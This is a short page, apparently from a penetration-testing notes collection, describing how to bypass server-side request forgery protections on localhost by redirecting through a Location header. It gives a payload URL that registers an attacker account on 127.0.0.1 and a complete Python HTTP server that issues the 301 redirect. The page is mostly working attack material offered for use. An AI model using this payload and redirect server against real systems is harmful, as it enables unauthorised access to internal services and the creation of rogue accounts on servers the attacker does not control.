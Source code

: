 ```yaml
---
description: Perform actions on the servers behalf
---
```


# Server Side Request Forgery

## Bypasses

### Localhost

#### Using the location header to perform a redirect to 127.0.0.1

Since it is possible to pass parameters in a redirect via location header you can use a link for a redirect to `localhost` if you're lucky enough to have a function that accepts query parameters, follows redirects & does not block connections to the internet

> If the target does not block connections to the internet you can use [bitly](https://bitly.com/) for this purpose, otherwise it is also possible to set up your own http server and implement a redirect via location header

**Payload**

```text
http://127.0.0.1/register?username=evil&password=evilpass&confirm=evilpass
```

#### Implementation via own http server

```text
from http.server import HTTPServer, BaseHTTPRequestHandler


class pyhandler(BaseHTTPRequestHandler):
    def do_GET(self):
        self.send_response(301)
        self.send_header('Location', 
        'http://127.0.0.1/register?username=evil&password=evilpass&confirm=evilpass')
        self.end_headers()


class pyhttp(object):
    def __init__(self, server_class=HTTPServer, 
                 handler_class=pyhandler):
        self.address = server_address = ('', 80)
        self.httpd = server_class(server_address, handler_class)
        self.httpd.serve_forever()


pyhttp()

```



